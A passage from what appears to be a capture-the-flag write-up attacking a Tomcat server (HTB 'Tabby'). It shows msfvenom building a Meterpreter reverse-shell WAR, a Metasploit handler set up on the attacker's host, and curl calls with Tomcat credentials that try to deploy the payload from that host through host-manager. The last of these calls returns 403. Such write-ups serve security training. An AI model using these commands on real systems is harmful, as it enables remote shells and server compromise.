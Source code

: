 ```text

Example command:

curl -u test:test http://localhost:8080/host-manager/text/add?name=www.awesomeserver.com&aliases=awesomeserver.com&appBase/mnt/appDir&deployOnStartup=true

Example response:

add: Adding host [www.awesomeserver.com]
```

[https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/](https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/)

```text
┌──(zweilos㉿kali)-[~/htb/tabby]
└─$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.216 LPORT=12543 -f war -o CRash.war
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of war file: 1599 bytes
Saved as: CRash.war
```

in msfconsole

```text
msf5 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf5 exploit(multi/handler) > set lport 12543
lport => 12543
msf5 exploit(multi/handler) > set payload linux/meterpreter/reverse_tcp
[-] The value specified for payload is not valid.
msf5 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.216:12543
```

started my handler in msfconsole

```text
┌──(zweilos㉿kali)-[~/htb/tabby]
└─$ curl -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/host-manager/html/add?name=test&aliases=test&appBase=http://10.10.14.216:8099/CRash.war&deployOnStartup=true"
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
 <head>
  <title>403 Access Denied</title>
  <style type="text/css">
    <!--
    BODY {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;font-size:12px;}
    H1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;}
    PRE, TT {border: 1px dotted #525D76}
    A {color : black;}A.name {color : black;}
    -->
  </style>
 </head>
 <body>
   <h1>403 Access Denied</h1>
   <p>
    You are not authorized to view this page.
   </p>
   <p>
```